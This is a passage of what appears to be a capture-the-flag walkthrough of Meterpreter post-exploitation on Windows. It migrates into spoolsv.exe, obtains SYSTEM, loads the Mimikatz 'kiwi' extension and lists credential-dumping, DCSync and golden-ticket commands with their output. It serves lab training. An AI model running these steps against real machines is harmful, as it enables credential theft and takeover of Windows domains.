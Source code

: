 ### Migrate to this process now with the command `migrate -N PROCESS_NAME` 
```
meterpreter > migrate
Usage: migrate <<pid> | -P <pid> | -N <name>> [-t timeout]

Migrates the server instance to another process.
NOTE: Any open channels or other dynamic state will be lost.
```
```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2508 to 1360...
[*] Migration completed successfully.
```

### Let's check what user we are now with the command `getuid`. What user is listed?
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
`NT AUTHORITY\SYSTEM`

### Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)
```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

### Loading kiwi into our meterpreter session will expand our help menu, take a look at the newly added section of the help menu now via the command `help`. 
```
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
```